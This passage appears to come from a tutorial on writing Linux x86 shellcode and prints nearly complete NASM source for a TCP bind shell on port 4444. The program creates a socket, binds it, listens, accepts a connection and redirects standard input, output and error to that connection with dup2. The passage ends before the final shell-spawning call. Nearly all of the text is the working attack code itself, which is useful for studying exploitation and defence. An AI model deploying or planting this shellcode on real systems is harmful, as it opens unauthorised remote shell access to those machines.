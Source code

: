 The final program will now look like this:

```nasm
global _start

section .text
  _start:
    ; set the frame pointer
    mov   ebp, esp

    ; clear required registers
    xor   eax, eax
    xor   ebx, ebx
    xor   ecx, ecx
    xor   edx, edx

    ; create sockaddr_in struct
    push  eax
    push  eax         ; [$esp]: 8 bytes of padding
    push  eax         ; [$esp]: 0
    push  word 0x5c11 ; [$esp]: 4444
    push  word 0x02   ; [$esp]: AF_INET

    ; call socket(domain, type, protocol)
    mov   ax, 0x167   ; $eax: 0x167 / 359
    mov   bl, 0x02    ; $ebx: AF_INET
    mov   cl, 0x01    ; $ecx: SOCK_STREAM
    int   0x80
    mov   edi, eax    ; $edi: socket file descriptor

    ; call bind(sockfd, addr, addrlen)
    xor   eax, eax
    mov   ax, 0x169   ; $eax: 0x169 / 361
    mov   ebx, edi    ; $ebx: sockfd
    mov   ecx, esp    ; $ecx: pointer to sockaddr struct
    mov   edx, ebp
    sub   edx, esp    ; $edx: size of the sockaddr struct
    int   0x80

    ; call listen(sockfd, backlog)
    xor   eax, eax
    mov   ax, 0x16b   ; $eax: 0x16b / 363
    mov   ebx, edi    ; $ebx: sockfd
    xor   ecx, ecx    ; $ecx: 0
    int   0x80

    ; call accept4(sockfd, *addr, *addrlen, flags)
    xor   eax, eax
    mov   ax, 0x16c   ; $eax: 0x16c / 364
    mov   ebx, edi    ; $ebx: sockfd
    xor   ecx, ecx    ; $ecx: NULL
    xor   edx, edx    ; $edx: NULL
    xor   esi, esi    ; $esi: 0
    int   0x80
    mov   esi, eax    ; $esi: connection file descriptor

    ; call dup2 to redirect STDIN, STDOUT and STDERR
    mov   cl, 0x3
    dup:
    xor   eax, eax
    mov   al, 0x3f
    mov   ebx, esi    ; $ebx: connection file descriptor
    dec   ecx
    int   0x80
```